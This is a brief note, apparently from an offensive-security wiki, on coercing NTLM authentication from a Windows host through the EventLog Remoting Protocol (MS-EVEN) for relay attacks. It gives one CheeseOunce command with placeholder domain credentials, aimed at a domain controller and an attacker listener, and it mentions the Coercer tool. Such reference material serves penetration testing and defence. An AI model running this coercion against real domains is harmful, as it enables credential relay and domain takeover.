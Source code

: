 ```yaml
---
title: NTLM Relay from ERP
---
```


[[notes/ad/ntlm-relay-source]] as domain user trough [[notes/network/msrpc]] *EventLog Remoting Protocol* ([MS-EVEN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)).

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "[CheeseOunce](https://github.com/evilashz/CheeseOunce)"
    ~~~ bash
    ./cheese.py corp.local/jdoe:'passw0rd'@dc01.corp.local $lhost
    ~~~

This technique is also implemented in [[notes/tools/coercer]].
